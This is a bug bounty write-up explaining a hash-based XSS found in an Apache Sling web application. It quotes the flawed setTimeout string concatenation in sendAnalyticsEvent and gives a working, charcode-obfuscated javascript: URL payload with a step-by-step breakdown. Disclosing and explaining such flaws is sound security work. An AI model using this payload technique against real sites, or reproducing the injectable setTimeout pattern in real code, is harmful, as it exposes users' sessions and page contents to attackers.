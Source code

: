 
# Hash based XSS on an Apache Sling WebApp

During my early start in bug bounty, I ended up researching on an Apache Sling application serving web content for customers, it was possible for them to subscribe and find out offers that benefit them.

While reviewing the javascript files, I stumbled upon an interesting injection flaw located in a function called `sendAnalyticsEvent`,

```
function sendAnalyticsEvent(link, site, page, value) {
    try {
        _gaq.push(['_trackEvent', site, page, value]);
        window.setTimeout("window.location.href='" + link + "'", 200);
        return false;
    } catch (err) {}
}
```

`setTimeout` is a function that executes code after expiration ofa time delay, it accepts raw code or a function reference.

As you can see, it looks like the parameter `link` is directly concatenated with actual javascript code that is supposed to be executed by setTimeout. This means that if the attacker can influence the `link` parameter, it should result in XSS.

## The POC

The XSS was triggered by sending the payload in the hash of the URL. The application had a `switchLanguage` functionality that would replace the language path inside the URL, then send `location.href` to the `sendAnalyticsEvent` function. `location.href` includes the url + hash.

```
function switchLanguage() {
  const newLocation = location.href.replaceAll("en", "fr")
  sendAnalyticsEvent(newLocation)
}
```

This resulted in a one click XSS once the user changed the language.

The payload looked like this:

```
https://www.redacted.com/en/index.html#a'.substring(1000).concat(String.fromCharCode(106,97,118,97,115,99,114,105,112,116,58,101,118,97,108,40,39,97,108,101,114,116,40,100,111,99,117,109,101,110,116,46,98,111,100,121,46,105,110,110,101,114,72,84,77,76,41,39,41));//
```

A few important points:
-  Added is a call to substring with a large amount, to get rid of the url start `https://www.redacted.com/en/index.html#a'`, resulting in an empty string as URL.
```
1. "window.location.href='" + "https://www.redacted.com/en/index.html#a'.substring(1000)"
2. "window.location.href='https://www.redacted.com/en/index.html#a'.substring(1000)"
3. "window.location.href=''"
```
- The javascript url payload can then be appended to the empty string, resulting in something like
```
1. window.location.href="".concat(String.fromCharCode(106,97,118,97,115,99,114,105,112,116,58,101,118,97,108,40,39,97,108,101,114,116,40,100,111,99,117,109,101,110,116,46,98,111,100,121,46,105,110,110,101,114,72,84,77,76,41,39,41));//
2. window.location.href="".concat('javascript:eval('alert(document.body.innerHTML)')
3. window.location.href="javascript:eval('alert(document.body.innerHTML)')"
```

The client fixed the injection by removing the hash.

In a follow up post, I will explain how I bypassed this fix by using Apache Sling URL decomposition.






